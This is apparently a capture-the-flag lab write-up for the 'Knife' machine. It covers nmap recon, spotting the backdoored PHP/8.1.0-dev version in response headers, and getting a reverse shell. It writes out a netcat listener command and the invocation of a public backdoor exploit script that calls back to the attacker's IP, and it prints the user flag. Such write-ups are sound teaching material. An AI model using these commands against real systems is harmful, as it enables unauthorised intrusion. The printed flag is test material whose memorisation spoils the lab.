 # Knife

## Recon

Nmap (`sudo nmap -A -T4 -p- 10.10.10.242`) showed 22 and 80, but not much information about either of them.

## Web Recon
This was a very tedious part of the challenge. 
The best takeaway from this is: **get as much information as possible before trying to hack anything!!!**

I spent a couple of hours checking for directory traversal, XXS, iframe vulnerabilities etc.

Eventually I took a step back and checked some of the response headers on Burp:
```HTTP
HTTP/1.1 200 OK
Date: Tue, 24 Aug 2021 07:04:58 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Vary: Accept-Encoding
Content-Length: 5815
Connection: close
Content-Type: text/html; charset=UTF-8
```

The `X-Powered-By` value caught my eye immediately: `PHP/8.1.0-dev`.
As I suspected when I did some reserach it appeared that this is vulnerable, and on [this page](https://github.com/flast101/php-8.1.0-dev-backdoor-rce) I found a [python script](../resources/knife/backdoor.py) that looked like it would do the job.

## Exploit

I set up an ncat listener:
```bash
nc -nlvp 4444
```

Ran the exploit:
```bash
python3 backdoor.py http://10.10.10.242 10.10.16.200 4444
```

Which gave me a reverse shell into a user account named james and the first flag:
```
james@knife:/$ cat $HOME/user.txt
73e3164162dde390aab7e40d3c7463e9
```


## Resources
- PHP 8.1.0-dev exploit - https://github.com/flast101/php-8.1.0-dev-backdoor-rce
- Upgrade terminal to tty - https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
- Knife documentation - https://docs.chef.io/workstation/knife/
